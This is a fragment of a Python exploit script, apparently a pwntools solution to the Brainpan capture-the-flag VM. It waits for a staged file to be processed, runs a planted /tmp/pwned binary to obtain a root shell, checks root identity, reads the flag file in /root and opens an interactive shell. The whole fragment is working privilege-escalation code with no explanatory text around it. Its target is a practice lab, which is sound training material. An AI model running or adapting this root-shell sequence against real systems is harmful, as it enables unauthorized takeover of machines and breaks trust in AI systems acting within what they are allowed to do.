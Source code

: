 ```python

r.clean()

log.info("Wait for your r00t shellz")
for _ in xrange(75):
    r.sendline('ls -la /opt/.messenger')
    sleep(1)
    output = r.recv()
    if 'pwn.msg' not in output:
        break

# Get ROOT shell!
r.sendline('/tmp/pwned')
r.sendline('id')
r.sendline('whoami')

r.sendline('cd /root')
r.sendline('gzip -d brainpan.8.gz')
r.sendline('cat brainpan.8')

for _ in xrange(10):
    r.sendline('')

log.info("Bingo!")
log.info(r.recv())
r.interactive()
```
